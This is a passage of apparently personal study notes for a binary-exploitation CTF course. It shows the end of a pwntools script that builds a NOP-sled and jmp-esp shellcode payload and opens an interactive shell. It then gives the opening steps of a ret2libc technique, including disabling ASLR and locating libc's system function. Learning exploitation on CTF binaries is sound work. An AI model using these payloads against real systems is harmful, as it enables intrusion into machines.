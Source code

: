       # Build payload
      payload = flat(
          asm('nop') * padding,
          jmp_esp,
          asm('nop') * 16,
          buf
      )
      
      # Write payload to file
      write("payload", payload)
      
      # Exploit
      io.sendlineafter(b':', payload)
      
      # Get flag/shell
      io.interactive()
      ```

## ==================================================================

## (6) Return to Lib-C (ret2system/one_gadget)
Files: https://github.com/Crypto-Cat/CTF/tree/main/pwn/binary_exploitation_101/06-return_to_libc

**NX is ENABLED** (meaning I won't be able to execute on the stack)
**Look at video for the use of `one_gadget`**


   1. You'll see `setuid(0);` and `setgid(0);` in _source code_
     + In Linux, 0 is the uid for root
     
   2. Do the usual stuff like above to find the offset and whatnot 
   
   3. Once you inject shellcode, you'll jump back to the stack to execute 
     + You'll use the `jmp esp` to do this
     
   4. Check the `.got.plt` to see the address of the `gets()` function in _Ghidra_
     + **ASLR/PIE is disabled** in this example
     + _Disable ASLR for the system since libc is still randomized_
       `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`
     + You can use the `ldd` command to see dependencies
      - `ldd secureserver`
     
   5. Get the address to _system_ based on the _directory_ to 
      `libc` found in step 4's `ldd`
      ```example_command
      readelf -s <dir_to_lib> # example: `readelf -s /lib/i386-linux-gnu/libc.so.6 |  grep system`
      ```
   